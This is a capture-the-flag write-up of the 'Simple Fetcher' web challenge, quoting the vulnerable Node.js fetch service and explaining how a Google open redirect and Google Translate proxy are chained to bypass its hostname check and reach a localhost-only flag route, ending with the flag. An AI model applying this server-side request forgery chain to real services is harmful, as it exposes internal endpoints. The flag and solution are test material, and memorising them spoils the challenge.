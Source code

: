 # Simple Fetcher — Iran Tech Olympics CTF 2025

> **Room / Challenge:** Simple Fetcher (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** Iran Tech Olympics CTF 2025
- **Challenge:** Simple Fetcher (web)
- **Target / URL:** `http://65.109.213.16:3333`
- **Difficulty:** `Easy / Medium`
- **Points:** `105`
- **Date:** `29-09-2025`

---

## Goal

We have to get the flag by using the internal fetch functionality to get the flag.

## My Solution

Here is the [Source Code](./simple-fetcher.zip.zip)

This challenge is easy but not simple :((.

Examining the source code you can see that it just have one file `app.js`. There are just 2 routes we have to focus on:

```javascript
app.post("/fetch", async (req, res) => {
  const inputUrl = req.body.url;
  if (!inputUrl) {
    return res.status(400).send("URL is required");
  }

  try {
    if (
      !inputUrl.startsWith("https://www.google.com/") &&
      !inputUrl.startsWith("https://google.com/")
    ) {
      return res
        .status(400)
        .send(
          "URL must start with https://www.google.com/ or https://google.com/"
        );
    }
    const parsedUrl = new URL(inputUrl);
    if (
      parsedUrl.hostname !== "www.google.com" &&
      parsedUrl.hostname !== "google.com"
    ) {
      return res
        .status(400)
        .send("Only www.google.com or google.com hostnames are allowed");
    }

    const browser = await puppeteer.launch({
      args: ["--no-sandbox", "--disable-setuid-sandbox"],
      headless: true,
    });
    const page = await browser.newPage();
    await page.goto(inputUrl, {
      waitUntil: "networkidle2",
      timeout: 10000,
    });
    const content = await page.content();
    await browser.close();
    res.send(`<h2>Content from ${inputUrl}:</h2><pre>${content}</pre>`);
  } catch (error) {
    res.status(500).send(`Error fetching URL: ${error.message}`);
  }
});

app.get("/flag", (req, res) => {
  const clientIp = (req.ip || req.connection.remoteAddress || "").toString();
  console.log(`Client IP: ${clientIp}`);
  if (clientIp.includes("127.0.0.1") || clientIp.includes("::1")) {
    const flag = process.env.FLAG || "Flag{fake_flag}";
    res.send(flag);
  } else {
    res.status(403).send("Access denied. Only local access allowed.");
  }
});
```

Although, it is simple but it takes me several hours to find out how to get the flag.

```javascript
if (
  !inputUrl.startsWith("https://www.google.com/") &&
  !inputUrl.startsWith("https://google.com/")
) {
  return res
    .status(400)
    .send("URL must start with https://www.google.com/ or https://google.com/");
}
const parsedUrl = new URL(inputUrl);
if (
  parsedUrl.hostname !== "www.google.com" &&
  parsedUrl.hostname !== "google.com"
) {
  return res
    .status(400)
    .send("Only www.google.com or google.com hostnames are allowed");
}
```

Those two conditions just allow us to use `https://www.google.com/` and `https://google.com/` to make the fetcher access to the resource we want.

In this challenge, we will take advantage of **Google Translate**. GG Translate has a functionality to translate given page to whatever we want, you can try with `https://translate.google.com/translate?u=https://jameskaois.com`:

![Guide image](./screenshots/simple-fetcher-1.png)

By this way we can setup a server and a simple `index.html` has this script:

```html
<script>
  window.location = "http://65.109.213.16:3333/flag";
</script>
```

This script will help me us redirect the fetch system to get the flag. Combine this with GG Translate: `https://google.com/url?q=https://translate.google.com/translate?u=https://<YOUR_REDIRECT_DOMAIN>`

![Guide image](./screenshots/simple-fetcher-2.png)

Flag: `ASIS{ez_gg_open_redirector_68e04025dd853596d7762adc}`

